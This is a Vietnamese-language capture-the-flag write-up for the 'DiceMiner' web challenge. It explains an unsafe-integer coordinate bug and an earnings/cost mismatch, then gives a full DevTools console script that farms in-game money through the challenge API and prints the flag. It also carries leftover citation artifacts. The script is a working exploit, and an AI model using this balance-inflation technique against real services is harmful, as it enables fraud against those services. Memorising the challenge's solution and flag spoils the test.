

# DiceMiner Writeup

Bug ở `/api/start`: server nhận `x = Math.floor(+req.body.x)` và chỉ check `isNaN/isFinite`, không check `Number.isSafeInteger`, nên có thể start ở tọa độ cực lớn. Frontend bình thường chỉ random `x` trong `[-100000,100000]`, nên không thể nhập trực tiếp giá trị này qua UI. :contentReference[oaicite:0]{index=0} :contentReference[oaicite:1]{index=1}

Bug thứ hai nằm ở `/api/dig`: server cộng `earnings` theo từng bước đào, nhưng `cost` lại tính theo `Object.keys(mined)` sau khi dedup block. Với số lớn không còn là safe integer, nhiều bước `cx += dx` có thể alias vào cùng một tọa độ string key, dẫn tới `earnings` bị cộng nhiều lần nhưng `cost` chỉ tính một lần. Đây là money glitch để farm đủ `1_000_000` mua flag. :contentReference[oaicite:2]{index=2}

Vì vậy cách tiện nhất để exploit là dùng DevTools console để gọi thẳng các endpoint `/api/start`, `/api/dig`, `/api/move`, `/api/buy` trong chính session đang đăng nhập.


## Exploit console

```javascript
(async () => {
  const api = async (path, body) => {
    const r = await fetch('/api' + path, {
      method: body ? 'POST' : 'GET',
      headers: body ? { 'Content-Type': 'application/json' } : undefined,
      body: body ? JSON.stringify(body) : undefined,
      credentials: 'include'
    });
    const j = await r.json();
    if (!r.ok) throw new Error(`${path}: ${JSON.stringify(j)}`);
    return j;
  };

  const X = 9007199254741042;
  const FLAG_COST = 1_000_000;
  const PICK_COST = [0, 100, 500, 5000];

  async function getState() {
    return await api('/state');
  }

  async function moveToY(curX, curY, targetY) {
    while (curY !== targetY) {
      const moves = [];
      while (curY !== targetY && moves.length < 32) {
        curY += targetY < curY ? -1 : 1;
        moves.push({ x: curX, y: curY });
      }
      await api('/move', { moves });
    }
    return curY;
  }

  await api('/start', { x: X });

  let s = await getState();
  let x = s.x, y = s.y;

  await api('/dig', { direction: 'down' });
  s = await getState();

  let deepest = 0;
  for (const [k, v] of Object.entries(s.grid)) {
    if (!v.mined) continue;
    const [bx, by] = k.split(',').map(Number);
    if (bx === x && by < deepest) deepest = by;
  }

  y = await moveToY(x, s.y, deepest);
  s = await getState();

  while (s.balance < FLAG_COST && s.energy > 0) {
    while (s.pickaxe + 1 < PICK_COST.length && s.balance >= PICK_COST[s.pickaxe + 1]) {
      await api('/buy', { item: s.pickaxe + 1 });
      s = await getState();
      console.log('[+] upgrade ->', s.pickaxeInfo.name, 'balance=', s.balance);
    }

    try {
      const r1 = await api('/dig', { direction: 'right' });
      s = await getState();
      console.log(`[+] right y=${s.y} blocks=${r1.blocks} earnings=${r1.earnings} cost=${r1.cost} net=${r1.net} bal=${s.balance}`);
      if (s.balance >= FLAG_COST) break;
    } catch (e) {
      console.log('[-] right failed:', e.message);
    }

    const r2 = await api('/dig', { direction: 'down' });
    s = await getState();
    console.log(`[+] down y=${s.y} blocks=${r2.blocks} earnings=${r2.earnings} cost=${r2.cost} net=${r2.net} bal=${s.balance}`);

    let nextDeepest = y;
    for (const [k, v] of Object.entries(s.grid)) {
      if (!v.mined) continue;
      const [bx, by] = k.split(',').map(Number);
      if (bx === x && by < nextDeepest) nextDeepest = by;
    }

    if (nextDeepest === y) break;

    y = await moveToY(x, y, nextDeepest);
    s = await getState();
    x = s.x;
  }

  s = await getState();
  if (s.balance >= FLAG_COST) {
    const win = await api('/buy', { item: 'flag' });
    console.log('FLAG =', win.flag);
  } else {
    console.log('not enough balance', s.balance);
  }
})();
```
Script sẽ tự:
- restart ở `x` lỗi,
- đào xuống tạo shaft,
- farm ngang để nhân tiền,
- tự mua pickaxe khi đủ tiền,
- và mua flag khi balance đạt `1_000_000`.

## Kết quả

**Flag:**

```text
dice{first_we_mine_then_we_cr4ft}
```


## Kết luận

Root cause là dùng JavaScript Number cho tọa độ mà không chặn unsafe integer, cộng với việc tính earnings và cost không cùng trên một tập block unique. Frontend không cho nhập x lỗi, nên cách ngắn nhất để solve là login rồi dán script vào console.